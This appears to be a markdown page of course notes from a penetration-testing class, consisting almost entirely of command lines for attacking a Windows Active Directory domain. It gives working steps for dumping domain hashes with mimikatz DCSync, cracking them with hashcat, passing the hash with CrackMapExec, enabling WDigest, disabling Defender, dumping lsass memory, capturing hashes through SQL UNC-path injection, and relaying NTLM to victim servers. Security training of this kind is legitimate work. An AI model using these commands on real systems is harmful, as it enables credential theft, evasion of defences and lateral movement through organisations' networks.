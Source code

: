 []: # Day 3 notes from Light Pentest LITE (Live Interactive Training Experience)
[]: # More information at https://7minsec.com/services/training/#lplite

# Dumping and cracking Active Directory hashes
With mimikatz:
```
mimikatz.exe
mimikatz#> privilege::debug
mimikatz#> lsadump::dcsync /domain:tangent.town /all
```
Dump to CSV format:
```
log hashes.csv
mimikatz#> lsadump::dcsync /domain:tangent.town /all /csv
```
Clean up the resulting "dirty" CSV:
```
Import-CSV -Delimiter "`t" -Header @("id","user","hash") -path .\hashes.csv | select user,hash | convertto-csv -Delimiter ':' -NoTypeInformation | % { $_ -replace '"', ""} | select-string -pattern "\$" -notmatch | out-file crackme.csv -Encoding ascii
```

Run hashcat against the `crackme.csv`:
```
hashcat -m 1000 crackme.csv c:\users\public\pentest-tools\wordlists\rockyou.txt --username
```

Run hashcat again with the `--show` flag to see which users link to which passwords:
```
hashcat -m 1000 --show crackme.csv c:\users\public\pentest-tools\wordlists\rockyou.txt --username
```

# Pass-the-hash attacks
Sample:
```
python cme smb 10.0.7.100 -u brian -H 11111111111111111111111111111111
```

# Setting credential "traps" with CrackMapExec
See if your own system is set to cache passwords with wdigest:
```
reg.exe query HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential
```

Turn on wdigest for a victim host you have local admin over:

```
python cme smb VICTIM-PC -u USER -p PASSWORD --local-auth -M wdigest -o ACTION=enable
```
# Stealing passwords with mimikatz
From an admin command prompt, set your machine to trust outbound PowerShell connections to victim host:
```
winrm set winrm/config/client @{TrustedHosts="MACHINE-NAME"}
```

Enter a PowerShell session on the victim host:
```
Enter-PSSession -ComputerName MACHINE-ADMIN -Credential MACHINE-NAME\NAME-OF-LOCAL-ADMIN
```

Disable Defender:
```
Set-MpPreference -DisableRealtimeMonitoring $true
```

Get lsass process:
```
get-process lsass
```

Use rundll32.exe to dump lsass:
```
rundll32 c:\windows\system32\comsvcs.dll, MiniDump XXX c:\some-folder\dump.dmp FULL
```

Rip open the memory dump and see if you find anything interesting!
```
mimikatz "sekurlsa::minidump dump.dmp" "sekurlsa::logonpasswords" "exit"
```

# Enumerating SQL services
Finding SQL servers with [PowerUpSQL](https://github.com/NetSPI/PowerUpSQL):
```
import-module .\PowerUpSQL.psd1 
$Targets = Get-SQLInstanceDomain -Verbose | Get-SQLConnectionTestThreaded -Verbose -Threads 10 | Where-Object {$_.Status -like "Accessible"}
```

Abusing stored procedures to snag hashes:
```
Invoke-SQLUncPathInjection -verbose -captureip x.x.x.x
```

# Relaying hashes from SQL 
Find targets with SMB signing NOT enabled:
```
python cme smb x.x.x.x/24 -u your-student-username -p yourpassword --gen-relay-list smbsigning.txt
```

Get *lsarelayx.exe* in listen mode:
```
lsarelayx.exe --host=127.0.0.1
```

Get ntlmrelayx relay going:
```
python ntlmrelayx.py -smb2support --no-smb-server -t smb://VICTIM-SERVER
```

Kick off the PowerUpSQL relay:
```
import-module .\PowerUpSQL.psd1 
Invoke-SQLUncPathInjection -verbose -captureip x.x.x.x
```